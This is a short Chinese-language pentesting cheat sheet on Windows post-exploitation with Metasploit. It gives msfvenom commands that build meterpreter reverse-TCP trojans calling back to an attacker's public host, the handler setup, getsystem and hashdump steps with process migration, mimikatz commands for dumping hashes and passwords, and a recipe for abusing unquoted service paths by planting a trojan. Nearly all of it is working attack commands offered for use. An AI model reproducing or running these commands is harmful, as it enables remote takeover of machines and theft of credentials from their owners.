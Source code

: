     过程我就不说了，大概思路就是msf生成一个exe木马反弹到公网主机
    然后最好是目标没有杀软（AV）先试试meterpreter自带的提权不行的话就换其他exp然后读hash
    破解hash就ok，如果读不出hash就进行进程迁移。
    
    具体如下
    1.msfvenom -p windows/meterpreter/reverse_tcp LHOST=公网ip LPORT=5200 -f exe -o msf.exe
      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=公网ip LPORT=5200 -f exe -o x64.exe
    2.use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lport 5200
      set lhost 外网IP（nat关系看情况）
      exploit     
    3.shell（network service权限）执行 最好system权限执行
    4.getsystem —> getuid
    5.hashdump (如果不行则换进程)
      migrate pid —> hashdump
    6.load mimikatz  mimikatz_command -f samdump::hashes
      mimikatz_command -f sekurlsa::searchPasswords
    
    `无引号服务路径漏洞`
    C:/windows/ysx soft/x.exe
    C:/windows/ysx/x.exe
    
    查找命令
    wmic service get name,displayname,pathname,startmode |findstr /i "auto"|findstr /i /v "c:\windows\\" |findstr /i /v """
    
    icacls x.exe  是否为EveryOne权限
    
    如果是 则可以msf生成木马与存在漏洞的应用程序名称一致放在ysx目录下以管理员或系统权限启动这个应用
    
